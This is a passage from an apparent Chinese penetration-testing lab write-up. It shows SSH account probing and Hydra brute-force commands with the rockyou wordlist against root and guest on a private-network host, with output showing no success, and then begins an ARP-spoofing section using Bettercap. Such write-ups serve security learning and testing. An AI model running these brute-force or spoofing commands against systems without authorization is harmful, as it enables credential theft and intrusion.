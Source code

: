 
### 4.5 SSH爆破


```shell
─$ ssh user@192.168.10.1
#输出The authenticity of host '192.168.10.1 (192.168.10.1)' can't be established.ED25519 key fingerprint is SHA256:s9L3hh3ICgQoYvYvJWftPyYLdnH+dRTgALELHxrMkEM.This key is not known by any other names.Are you sure you want to continue connecting (yes/no/[fingerprint])? yes─$ ssh root@192.168.10.1#输出root@192.168.10.1's password:
─$ ssh guest@192.168.10.1
#输出guest@192.168.10.1's password:
```


登录提示说明存在用户名为root，guest的用户有口令，而user用户使用的是非对称密钥：


针对root和guest：


```shell
└─$ hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://192.168.10.1
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-01-09 15:27:56
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://192.168.10.1:22/
[STATUS] 100.00 tries/min, 100 tries in 00:01h, 14344301 to do in 2390:44h, 14 active
[STATUS] 109.67 tries/min, 329 tries in 00:03h, 14344072 to do in 2179:58h, 14 active
```


```shell
└─$ hydra -l guest -P /usr/share/wordlists/rockyou.txt ssh://192.168.10.1
```


都无法成功破解。


## 5. 中间人攻击


### 5.1 ARP欺骗


通过 ARP 欺骗，告诉目标设备和网关攻击者是合法通信对方。


### 5.1.1 使用 `Bettercap`​

1. 安装 Bettercap：
